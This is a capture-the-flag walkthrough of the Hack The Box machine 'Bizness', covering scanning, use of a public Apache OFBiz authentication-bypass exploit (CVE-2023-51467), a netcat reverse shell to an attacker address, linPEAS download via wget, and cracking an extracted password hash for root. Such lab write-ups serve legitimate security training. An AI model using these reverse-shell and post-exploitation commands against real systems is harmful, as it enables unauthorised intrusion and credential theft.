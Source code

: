 ```yaml
---
description: Walkthrough of the HTB machine "Bizness"
cover: >-
  https://images.unsplash.com/photo-1496442226666-8d4d0e62e6e9?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwyfHxuZXclMjB5b3JrfGVufDB8fHx8MTcwOTM4NzQzOXww&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# 👩‍💼 Bizness

## Scanning

Let's start with the usual Nmap scan:

```bash
nmap -T4 -A 10.10.11.252    

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 10:59 -03
Nmap scan report for 10.10.11.252
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.59 seconds

```

As we can see, HTTP and HTTPS are opened on the target. However, when we try to access it via a web browser, we're redirected to the domain "_bizness.htb_".

So, we need to put this domain into our /etc/hosts file:

```bash
echo '10.10.11.152 bizness.htb' | sudo tee -a /etc/hosts
```



## Enumeration

As we navigate through the website, we can start up a Directory Busting tool as well as a Subdomain Finder while we analyze the application.

There is a variety of tools we can use for Directory Busting, being: _gobuster, dirbuster, feroxbuster, FFUF_, etc.

In this case, we're going to Directory Bust using _Dirbuster_:

```bash
dirbuster -u https://bizness.htb/ -l /usr/share/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-small.txt 

# -u = url
# -l = wordlist
```

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption><p>Dirbuster found a login page</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption><p>Login page</p></figcaption></figure>



## Exploitation

Once we found a login page, we can try default credentials or brute-forcing this if we're able. However, first, let's try searching for an exploit for this OFBiz Apache page.

After some research, I found that [CVE-2023-51467](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) relates to an Authentication Bypass Vulnerability in Apache OFBiz. This CVE exploits a Server-Side Request Forgery (SSRF) vulnerability on the web application. We can download the exploit file and run it on our target:

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption><p>Exploit showing that target is vulnerable</p></figcaption></figure>

Now we can run commands on the target. So we can try to get a Reverse Shell using _Netcat_:

<pre class="language-bash"><code class="lang-bash"><strong>#First, we should open a port with Netcat
</strong><strong>
</strong><strong>rlwrap nc -nvlp 7777
</strong><strong>#rlwrap is used so we can have a better tty shell.
</strong><strong>
</strong><strong>#Next, we should execute the exploit to get the Reverse Shell
</strong><strong>python3 exploit.py --url https://bizness.htb/ --cmd 'nc 10.10.14.19 7777'
</strong></code></pre>

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>Exploit first try</p></figcaption></figure>

However, as we can see here, we aren't getting any responses from the server despite providing commands through Netcat.

We can fix this by adding a `-c bash` to the command:&#x20;

```bash
python3 exploit.py --url https://bizness.htb/ --cmd 'nc -c bash 10.10.14.19 7777'

# -c = specifies shell commands to execute after a connection. In this case, we're specifying we want to use bash
```

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>Exploit Successful</p></figcaption></figure>



### User Flag

From there, we just need to grab the user flag in the "_ofbiz_" home directory:

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption><p>User flag</p></figcaption></figure>

Now, before we do anything else, let's get a full TTY Shell. The best way to do this is using this Python script:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

However, I'm going to leave you [this link](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys) so you can find other ways to get a Full TTY Shell.



## Post Exploitation / Privilege Escalation

We can start by doing some basic enumeration. After that, if we aren't able to find anything from the get-go, we can upload "_linPEAS_" to the target by using the following commands:

<pre class="language-bash"><code class="lang-bash"><strong># On the ATTACKER machine, go to the folder where you have linPEAS (if you're in Kali Linux version 2024.1, it should be in your /opt/linpeas folder:
</strong><strong>
</strong><strong>cd /opt/linpeas
</strong><strong>
</strong><strong>python3 -m http.server 80
</strong><strong>
</strong><strong>
</strong><strong># On the TARGET machine, go to the "tmp" folder, where we usually have write access and download the "linpeas.sh" file using wget:
</strong><strong>
</strong><strong>cd /tmp
</strong><strong>
</strong><strong>wget http://&#x3C;attacker ip>/linpeas.sh
</strong><strong>
</strong><strong># Next, we give the script permission to execute:
</strong><strong>
</strong><strong>chmod +x linpeas.sh
</strong><strong>
</strong><strong># Then, we run the script:
</strong><strong>
</strong><strong>./linpeas.sh
</strong></code></pre>

<figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption><p>Transfering linPEAS to the target machine</p></figcaption></figure>

LinPEAS shows us that there's an executable our user has write access to:

<figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption><p>LinPEAS shows an executable file our low level user has write access to</p></figcaption></figure>

However, we can only abuse this to create a backdoor. [This link](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services) should provide you with an explanation.

So we'll need to enumerate further.

If we continue our enumeration, we'll be able to find a password in the `c54d0.dat` file located in the `/opt/ofbiz/runtime/data/derby/ofbiz/seg0` directory:

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption><p>SALT part of the hash</p></figcaption></figure>

Now, before we crack this hash, [we'll need to decode the hash](https://www.linkedin.com/pulse/bizness-htb-walkthrough-laith-younes-laith-younes--jtqhe) using [CyberChef](https://gchq.github.io/CyberChef/#recipe=Find\_/\_Replace\(%7B'option':'Regex','string':'\_'%7D,'/',false,false,false,false\)Find\_/\_Replace\(%7B'option':'Regex','string':'-'%7D,'%2B',false,false,false,false\)From\_Base64\('A-Za-z0-9%2B/%3D',false,false\)To\_Hex\('None',0\)\&input=dVAwX1FhVkJwRFdGZW84LWRSekRxUndYUTJJ):

<figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption><p>Decoded hash</p></figcaption></figure>

So we can use "_hashcat_" with the hash mode of 120 to crack it:

```bash
hashcat -m 120 '<hash>:d' /usr/share/wordlists/rockyou.txt

# -m = mode
```

<figure><img src="../.gitbook/assets/image (11) (1).png" alt=""><figcaption><p>Here's our cracked password</p></figcaption></figure>

###

### Root Flag

Now we just need to switch the user to root and grab the root flag:

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption><p>Root's Flag</p></figcaption></figure>

And this was the CTF!&#x20;

Thank you so much for taking the time to read my WriteUp!

See you in another box!
